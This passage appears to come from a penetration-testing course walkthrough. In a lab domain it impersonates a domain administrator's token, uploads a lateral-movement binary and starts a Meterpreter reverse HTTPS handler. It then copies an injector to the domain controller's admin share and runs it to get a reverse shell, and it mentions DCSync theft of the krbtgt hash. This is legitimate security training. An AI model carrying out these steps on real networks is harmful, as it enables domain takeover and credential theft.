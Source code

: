 ```
Impersonation Tokens Available
========================================
No tokens available
```

> Listing 52 - Listing access tokens on file01

Since we can impersonate _paul_, we have domain administrator access to the infrastructure. At this stage, the penetration test often becomes a lot easier, depending on how secure the configurations are.

If we want to thoroughly compromise the domain or need to attack subsequent trusted domains, we can obtain access to the _krbtgt_ NTLM hash through an attack like _DCSync_[1](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fn-local_id_748-1) or simply perform lateral movement to the domain controller.

For purposes of demonstration in this small environment, we are going to opt for the latter approach and reuse the attack through the service manager to obtain a reverse shell from dc02.

Before we impersonate the token, we'll update the lateral movement code to change the target to dc02. We call it lat2.exe and upload it to file01.

```
meterpreter > upload /home/kali/lat2.exe c:\\lat2.exe
[*] uploading  : /home/kali/lat2.exe -> c:\lat2.exe
[*] Uploaded 5.50 KiB of 5.50 KiB (100.0%): /home/kali/lat2.exe -> c:\lat2.exe
[*] uploaded   : /home/kali/lat2.exe -> c:\lat2.exe

meterpreter > background
[*] Backgrounding session 3...

msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.119.120:443

msf5 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > impersonate_token EVIL\\paul
[+] Delegation token available
[+] Successfully impersonated user EVIL\paul
```

> Listing 53 - Simple reverse shell from dc02

In addition, we'll need to background the current Meterpreter session, start a listener as a job, then interact with the Meterpreter session and impersonate _paul_.

To begin, we'll copy Inject.exe from file01 to dc02 and run lat2.exe as shown in Listing 53.

```
meterpreter > shell
Process 772 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> copy c:\inject.exe \\dc02\c$
copy c:\inject.exe \\dc02\c$
        1 file(s) copied.

C:\Windows\system32> c:\lat2.exe
c:\lat2.exe
Error in calling StartService: 1053
Error in calling StartService: 1053

```